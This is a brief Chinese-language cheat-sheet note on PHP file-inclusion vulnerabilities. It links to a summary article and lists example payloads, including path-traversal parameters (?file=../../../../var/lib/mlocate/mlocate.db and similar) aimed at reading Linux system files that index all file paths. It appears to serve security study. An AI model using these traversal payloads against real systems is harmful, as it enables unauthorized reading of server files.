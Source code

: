 参考:
[PHP文件包含漏洞总结](https://www.secpulse.com/archives/3206.html)

```
包含同目录下的文件：
?file=.htaccess
目录遍历：
?file=../../../../../../../../../var/lib/locate.db ?file=../../../../../../../../../var/lib/mlocate/mlocate.db

(linux中这两个文件储存着所有文件的路径，需要root权限)
```